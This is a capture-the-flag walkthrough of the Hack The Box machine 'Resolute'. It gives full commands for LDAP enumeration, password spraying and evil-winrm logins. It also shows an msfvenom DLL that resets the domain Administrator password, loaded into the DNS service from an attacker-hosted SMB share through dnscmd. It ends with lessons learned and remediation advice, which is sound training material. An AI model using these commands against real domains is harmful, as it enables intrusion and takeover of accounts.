







# Resolute — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | Anonymous RPC/LDAP enumeration, password spraying, PowerShell transcript credential leak, DnsAdmins abuse |

---

## TL;DR

Resolute chains a familiar early-AD pattern — anonymous enumeration, a
password left in an LDAP field, a lockout-safe spray — into an escalation
path I hadn't used elsewhere in this set: abusing the **DnsAdmins**
group's ability to load an arbitrary DLL into the DNS service, turning a
restart of a routine Windows service into `NT AUTHORITY\SYSTEM` on the
domain controller.

---

## Recon

```bash
nmap -sC -sV 10.129.96.155
```



LDAP (`megabank.local`) and RPC.

### RPC and LDAP

Anonymous RPC bind pulled a username list:

```bash
rpcclient -U "" 10.129.96.155 -N
```



LDAP, still anonymous, was worth searching for anything stashed in an
attribute field:

```bash
ldapsearch -x -H ldap://10.129.96.155 -D '' -w '' -b "dc=megabank,dc=local" | grep password
```


That turned up a password mentioned in an object's description-field
notes. Before spraying it, checked the account lockout policy — spraying
blind on an unknown policy risks locking out real accounts:

```bash
ldapsearch -x -H ldap://10.129.96.155 -b "dc=megabank,dc=local" -s sub "*" | grep lock
```



No lockout threshold was configured, meaning a spray was safe to run
broadly.

---

## Foothold / Initial Access

```bash
crackmapexec smb 10.129.96.155 -u users.txt -p 'Welcome123!'
```

The password worked for `melanie`, giving WinRM access:

```bash
evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

User flag retrieved.

---

## Lateral Movement

Windows logs more than people expect by default, including **PowerShell
transcripts** — and Resolute's `PSTranscripts` folder had one sitting in
plain reach, containing a command someone had typed with credentials
embedded directly on the command line:



The leaked credentials belonged to `ryan`, a member of **DnsAdmins**:

```bash
evil-winrm -i 10.129.96.155 -u ryan -p 'Serv3r4Admin4cc123!'
```



---

## Privilege Escalation

DnsAdmins can specify a plugin DLL for the DNS Server service to load —
a legitimate extensibility feature that, combined with permission to
restart the service, becomes a privileged code-execution primitive.
Built a malicious DLL with msfvenom that changes the Administrator
password:

```bash
msfvenom -p windows/x64/exec cmd='net user administrator Password123! /domain' -f dll > da.dll
```

To avoid tripping a security product on a normal file copy, served the
DLL over an Impacket SMB server rather than transferring it directly:

```bash
sudo impacket-smbserver share ./
```



Pointed the DNS service's plugin DLL registry value at the hosted file
with `dnscmd`, then stopped and started the service to force it to load:

```powershell
dnscmd localhost /config /serverlevelplugindll \\<ATTACKER_IP>\share\da.dll
sc.exe stop dns
sc.exe start dns
```



DnsAdmins members are commonly, if unintentionally, granted rights to
restart the DNS service — and it restarted cleanly, loading the DLL as
`NT AUTHORITY\SYSTEM` and rewriting the Administrator's password in the
process. Confirmed with:

```bash
impacket-psexec megabank.local/administrator@10.129.96.155
```

Root flag retrieved.

---

## Lessons Learned

- PowerShell transcript logs are one of the highest-value artifacts on
  any Windows box — they capture exactly the credentials-on-the-command-
  line mistake that's otherwise invisible.
- DnsAdmins is a much more powerful group than its name suggests — DLL
  loading via the DNS service is a well-known SYSTEM-level escalation,
  not a documentation footnote.
- Checking the account lockout policy before spraying isn't optional —
  it's the difference between a safe recon step and taking down real
  accounts.

---

## Remediation

- Disable or restrict PowerShell transcription in locations reachable by
  low-privileged users, and never type credentials directly on a command
  line.
- Treat DnsAdmins membership as Tier-0 privileged — it should be as
  tightly controlled and audited as Domain Admins.
- Enforce a sane account lockout policy; "no lockout" turns every future
  spraying attempt into a free, safe attack for anyone on the network.

---

## Tools used

- `nmap`
- `rpcclient`, `ldapsearch`
- `crackmapexec`, `evil-winrm`
- `msfvenom`
- Impacket (`smbserver`, `psexec`)
- `dnscmd`

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Resolute](https://www.hackthebox.com/machines/resolute)
